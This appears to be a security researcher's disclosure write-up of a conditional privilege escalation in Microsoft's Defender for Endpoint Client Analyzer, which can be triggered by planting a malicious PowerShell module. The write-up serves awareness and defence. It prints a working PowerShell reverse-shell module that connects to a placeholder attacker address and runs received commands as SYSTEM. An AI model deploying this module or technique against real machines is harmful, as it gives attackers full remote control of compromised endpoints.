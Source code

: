 # Summary

If you are using Microsoft Defender for Endpoint for your SOC operation, be cautious when collecting suppport logs with "Microsoft Defender for Endpoint Client Analyzer" tool via a live response session. If an endpoint has been compromised to an extend and the attacker has permissions to write to specific paths, he can conduct a PowerShell module implant atack. Below is a description of a conditional privilege escalation attack using the PowerShell module implant technique. Microsoft doesn't recognize this as an vulnerability since by default the paths listed in "Preconditions for the Attack" are not writable by a none admin user. Fair point and understandable. 
    
# Description

When contacting support, Microsoft may ask for the output package of the "Microsoft Defender for  Endpoint Client Analyzer" tool. This guidance is available in the article "Collect support logs in Microsoft Defender for Endpoint using live response" (https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/troubleshoot-collect-support-log?view=o365-worldwide). I discovered that the "Microsoft Defender for Endpoint Client Analyzer" tool does not check the integrity of PowerShell modules and allows an attacker to gain "nt authority\system" privileges on the victim machine.

## Preconditions for the Attack
    
* The user has permissions to write into one of the following directories on the victim machine:
   * .\WindowsPowerShell\Modules
   * C:\Program Files\WindowsPowerShell\Modules
   * C:\Windows\system32\WindowsPowerShell\v1.0\Modules   
   * C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell

* A SOC analyst establishes a Live response session to the victim in Microsoft 365 Security Center and runs the "Microsoft  Defender for Endpoint Client Analyzer" tool
    
## Steps to Reproduce
 
The "Microsoft Defender for Endpoint Client Analyzer" tool is available at the following URL https://aka.ms/MDELiveAnalyzer (a compressed MDELiveAnalyzer.ps1 script). The script when uploaded can be run in the Live response command console from  Microsoft 365 Security Center as "run MDELiveAnalyzer.ps1". As seen below, the script drops **MDEClientAnalyzer.ps1** with some additional tools. 

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure1.JPG?raw=true)

The script MDEClientAnalyzer.ps1, dropped by MDELiveAnalyzer.ps1, is carefully designed and checks the integrity of executables via the **Check-Command-verified** function which calls the **CheckAuthenticodeSignature** function to check the signature of executables. Part of the function is visible below. 

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure2.JPG?raw=true)
   
In the privilege escalation attack we are trying to plant a malicious **BitsTransfer** module in one of the default paths of PowerShell modules. The PSModulePath environment variable stores the paths to the locations of the modules that are installed on disk. PowerShell uses this variable to locate modules when the user does not specify the full path to a module. In the Live response session, the PSModulePath environment variable contains the following paths:

* WindowsPowerShell\Modules
* C:\Program Files\WindowsPowerShell\Modules
* C:\Windows\system32\WindowsPowerShell\v1.0\Modules
* C:\Program Files\Microsoft Monitoring Agent\Agent\PowerShell\

The privilege escalation attack assumes that some of the paths are writable for the current user. The first one (WindowsPowerShell\Modules) is unlikely since the Live response sessions runs in the path "C:\ProgramData\Microsoft\Windows Defender Advanced Threat Protection\" which requires "NT Authority\System" privileges to access or modify the content. The second and third are more likely. In the simulation we are using the second path (C:\Program Files\WindowsPowerShell\Modules). 

We create a new module at:

`C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1`

The content of the module is visible below.

```
function Start-BitsTransfer
{
 Param
 (
 [Parameter(Mandatory=$false)]
 [string] $Source,
 [Parameter(Mandatory=$false)]
 [string] $Destination,
[Parameter(Mandatory=$false)]
 [string] $TransferType,
[Parameter(Mandatory=$false)]
[switch] $Asynchronous,
[Parameter(Mandatory=$false)]
 [string] $Description,
[Parameter(Mandatory=$false)]
 [string] $RetryTimeout,
[Parameter(Mandatory=$false)]
 [string] $RetryInterval
 )
Write-Host $env:PSModulePath
$client = New-Object System.Net.Sockets.TCPClient("XXX.XXX.XXX.XXX",443);$stream = 
$client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -
ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = 
(iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = 
([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Fl
ush()};$client.Close()
}
```

The module contains the necessary arguments since from MDEClientAnalyzer.ps1 the **Start-BitsTransfer** function is called twice like:

```
Start-BitsTransfer -source $webfile -Destination "$DlZipFile" -Description "Downloading 
additional files" -RetryTimeout 60 -RetryInterval 60 -ErrorAction SilentlyContinue

Start-BitsTransfer -Source $WPTURL -Destination "$DlZipFile" -TransferType Download -
Asynchronous
```
The other part of the malicious module prints the environment variable PSModulePath and establishes a reverse connection to XXX.XXX.XXX.XXX on port 443. 

The attacker that planted the malicious module in "C:\Program Files\WindowsPowerShell\Modules\BitsTransfer\BitsTransfer.psm1" is now waiting for the live response sessions and the collection of the output package of the "Microsoft Defender for Endpoint Client Analyzer" tool.

Once a SOC analyst establishes a live response session, uploads the MDELiveAnalyzer.ps1 scripts and runs it, the attacker gets a reverse shell to the victim as "NT Authority\System". In the first figure below we can see the SOC analyst running MDELiveAnalyzer.ps1 and the output of the malicious **BitsTransfer** module. In the second figure below we can see an established reverse shell to the attacker machine. It is also visible that the reverse shell runs whit privileges of "nt authority\system". This concludes our privilege escalation attack.

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure3.JPG?raw=true)

![alt text](https://github.com/rashimo/secaware/blob/main/MDE_Conditional_Privesc/figure4.JPG?raw=true)
